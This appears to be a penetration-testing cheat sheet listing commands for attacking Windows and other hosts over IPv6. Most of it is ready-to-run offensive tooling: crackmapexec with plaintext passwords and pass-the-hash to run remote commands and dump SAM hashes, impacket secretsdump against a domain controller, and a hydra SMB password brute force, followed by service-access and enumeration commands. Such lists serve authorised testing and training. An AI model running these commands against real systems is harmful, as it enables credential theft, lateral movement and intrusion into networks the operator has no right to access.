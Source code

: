 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] |

### IPv6 Services
| for Example  |
| ------------- |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
|smbclient -L //2001:db7::1234:1%eth0 |
|http://[2001:db7::1234:2] |
|telnet 3ffe:400:100::1 80 |
|mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ |
|curl -g [fe80::ba27:ebff:fe60:89af] |
|curl -g [::1]:8080|
|curl -g http://[IPV6]:8080/ |
|curl -I [IPV6] -v -V -K|
|dirb http://[IPV6]|

